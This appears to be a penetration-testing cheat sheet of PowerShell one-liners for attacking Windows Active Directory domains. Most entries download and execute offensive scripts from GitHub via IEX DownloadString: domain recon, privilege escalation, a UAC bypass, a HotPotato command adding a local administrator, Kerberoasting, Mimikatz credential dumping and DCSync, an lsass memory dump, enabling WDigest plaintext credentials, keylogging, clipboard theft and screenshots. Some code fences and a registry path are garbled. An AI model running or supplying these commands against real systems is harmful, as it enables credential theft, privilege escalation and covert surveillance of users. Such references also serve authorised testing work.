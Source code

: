 ## Table of Contents

- [Domain Recon](#domain\recon)
  - [ShareFinder - Look for shares on network and check access under current user context & Log to file](#ShareFinder\-\Look\for\shares\on\network\and\check\access\under\current\user\context\&\Log\to\file)
  - [Import PowerView Module](#Import\PowerView\Module)
  - [Invoke-BloodHound for domain recon](#Invoke-BloodHound\for\domain\recon)
  - [ADRecon script to generate XLSX file of domain properties](#ADRecon\script\to\generate\XLSX\file\of\domain\properties)
- [Priv Esc](#priv\esc)
  - [PowerUp script](#PowerUp\script)
  - [cPasswords in sysvol](#cPasswords\in\sysvol)
  - [Inveigh](#Inveigh)
    - [Start inveigh using Basic Auth - logging to file](#Start\inveigh\using\Basic\Auth\-\logging\to\file)
    - [Start inveigh in silent mode (no popups)](#Start\inveigh\in\silent\mode\(no\popups))
  - [Invoke-HotPotato Exploit](#Invoke-HotPotato\Exploit)
  - [Bypass UAC and launch PowerShell window as admin](#Bypass\UAC\and\launch\PowerShell\window\as\admin)
  - [Invoke-Kerberoast with Hashcat Output](#Invoke-Kerberoast\with\Hashcat\Output)
- [Reg Keys](#reg\keys)
  - [Enable Wdigest](#Enable\Wdigest)
  - [Check always install elevated](#Check\always\install\elevated)
- [Mimikatz](#mimikatz)
  - [Invoke Mimikatz](#Invoke\Mimikatz)
  - [Import Mimikatz Module](#Import\Mimikatz\Module)
  - [Perform DcSync attack](#Perform\DcSync\attack)
  - [Invoke-MassMimikatz](#Invoke-MassMimikatz)
  - [Manual Procdump for offline mimikatz](#Manual\Procdump\for\offline\mimikatz)
- [Useful Scripts/Commands](#useful\scripts/commands)
  - [Use Windows Debug api to pause live processes](#Use\Windows\Debug\api\to\pause\live\processes)
  - [Import Powersploits invoke-keystrokes](#Import\Powersploits\invoke-keystrokes)
  - [Import Empire's Get-ClipboardContents](#Import\Empire's\Get-ClipboardContents)
  - [Import Get-TimedScreenshot](#Import\Get-TimedScreenshot)
- [Useful Links](#useful\links)
  - [Nmap](#Nmap)
  - [EyeWitness Binary](#EyeWitness\Binary)
  - [Sys InternalTools](#Sys\InternalTools)
  - [List of Binaries that can be used for living off the land techniques](#List\of\Binaries\that\can\be\used\for\living\off\the\land\techniques)
- [Installing CrackMapexec (Linux/Windows)](#installing\crackmapexec\(linux/windows))


#recon

```Powershell
# Domain Recon
## ShareFinder - Look for shares on network and check access under current user context & Log to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```
## Import PowerView Module
```

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```
#powerview
## Invoke-BloodHound for domain recon
```

powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```
#bloodhound
## ADRecon script to generate XLSX file of domain properties
```powershell

powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/sense-of-security/ADRecon/master/ADRecon.ps1')"
```
#ADRecon

# Priv Esc
## PowerUp script
```powershell

powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```
#powerup

## cPasswords in sysvol
```powershell

findstr /S cpassword %logonserver%\sysvol\*.xml
findstr /S cpassword $env:logonserver\sysvol\*.xml
```
#sysvol #findstr #cpassword



## Inveigh
#inveigh #windows #AD
### Start inveigh using Basic Auth - logging to file
```powershell

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -HTTPAuth Basic"
```
### Start inveigh in silent mode (no popups)
```powershell

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y -WPADAuth anonymous"
```

#hotpotato
## Invoke-HotPotato Exploit
```powershell

powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1');invoke-Tater -Command 'net localgroup Administrators user /add'"
```

#UACBypass #powershell #admin
## Bypass UAC and launch PowerShell window as admin
```powershell

powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

#kerberoast
## Invoke-Kerberoast with Hashcat Output
```powershell

powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"
```
	#hashcat
# Reg Keys
## Enable Wdigest
```python

reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1 /f
```
#registry #keys
## Check always install elevated
```powershell

reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
registry query for HKEY)CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

#mimikatz
# Mimikatz
#dcsync #massmimikatz #powersploit #powerview #procdump
## Invoke Mimikatz
```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

## Import Mimikatz Module
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

## Perform DcSync attack
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:demodomain /user:sqladmin"'

## Invoke-MassMimikatz
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

## Manual Procdump for offline mimikatz
.\procdump.exe -accepteula -ma lsass.exe lsass.dmp


# Useful Scripts/Commands
## Use Windows Debug api to pause live processes
powershell.exe -nop -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/Pause-Process/master/pause-process.ps1');Pause-Process -ID 1180;UnPause-Process -ID 1180;"

## Import Powersploits invoke-keystrokes
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-Keystrokes.ps1')"

## Import Empire's Get-ClipboardContents
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1')"

## Import Get-TimedScreenshot
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/obscuresec/PowerShell/master/Get-TimedScreenshot')"


# Useful Links
## Nmap
https://nmap.org/dist/nmap-7.70-win32.zip

## EyeWitness Binary
https://www.christophertruncer.com/InstallMe/EyeWitness.zip

## Sys InternalTools
https://live.sysinternals.com/
https://download.sysinternals.com/files/SysinternalsSuite.zip

## List of Binaries that can be used for living off the land techniques
https://github.com/api0cradle/LOLBAS
```


#crackmapexec
# Installing CrackMapexec (Linux/Windows)
```bash
apt-get install -y libssl-dev libffi-dev python-dev-is-python3 build-essential

git clone https://github.com/mpgn/CrackMapExec

cd CrackMapExec

poetry install

poetry run crackmapexec
```




